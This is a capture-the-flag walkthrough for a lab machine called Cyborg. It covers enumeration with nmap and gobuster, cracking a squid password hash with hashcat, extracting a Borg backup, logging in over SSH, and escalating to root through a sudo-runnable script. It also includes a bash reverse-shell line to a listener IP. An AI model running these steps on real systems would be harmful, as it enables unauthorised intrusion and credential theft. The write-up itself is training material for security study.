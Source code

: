 # Summary

Enumerate using CLI<br>
Explore the website<br>
Get the payload<br>
Use borg to inflate a backup archive<br>
Use hashid to identy type of hash<br>
Use hashcat to decrypt a hash<br>
Reverse shell with nc<br>


### Enumerate
```bash
export IP=10.10.76.200
nmap -A $IP scans/nmap.log
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt | tee scans/gobuster.log
```

Explore the paths obtained with gobuster. Get the loot<br>

```bash
wget http://$IP/admin/archive.tar
tar -xvf archive.tar
wget http://$IP/etc/squid/passwd
```
The contents of the file **passwd** look a lot like a hash. Move into `../Cyborg/home/field/dev/final_archive/data/0` <br>
Identify the types of files <br>

```bash
file filename
binwalk filename
```

The hash obteined from `wget http://$IP/etc/squid/passwd` comes in the form of XXXX, remove the user and leave just the hash, then pass it to hashcat with this `hashcat -a 0 -m 1600 passwd /usr/share/wordlists/rockyou.txt` <br>

> Password: squidward<br>

It is a BORG Backup Archive, one of the parents directories has to be the true archive. In this case is `/final_archive` <br>

```bash
borg list final_archive 						#See the name of the repository, Use squidward as password
borg extract final_archive::music_archive		#Extract the contents, Use squidward as password
```

Explore `~/THM/Cyborg/home/field/dev/home/alex` 

Find the files
`find . -name *.txt 2>/dev/null`

![](images/image1.png)

> Username: alex <br>
> Password: S3cretP@s3<br>

Connect to ssh using the credentials obtained
```bash
ssh alex@$IP				#Password S3cretP@s3
```

Explore and get the user flag<br>

Priv Esc
```bash
sudo -l 		#S3cretP@s3
```
![](images/image2.png)


Read the file<br>
```bash
nano /etc/mp3backups/backup.sh
```

It is possible to execute the script with root privileges and provide a flag **-c** to pass a command to it, this command will be executed with root<br>
```bash
sudo /etc/mp3backups/backup.sh -c '/bin/bash'
```

Now we are root, but the terminal is not interactive, lets fix that with a reverse shell<br>

Set up a listener<br>
```bash
listen 9000  #listen is alias for 'rnlw nc -lnvp '
```

Trigger the reverse shell <br>
```bash
bash -i >& /dev/tcp/10.6.73.147/9000 0>&1
```
![](images/video1.gif)

Stabilize it if you want, then get the root flag<br>
```bash
find / -name root.txt* 2>/dev/null
cat /root/root.txt
```
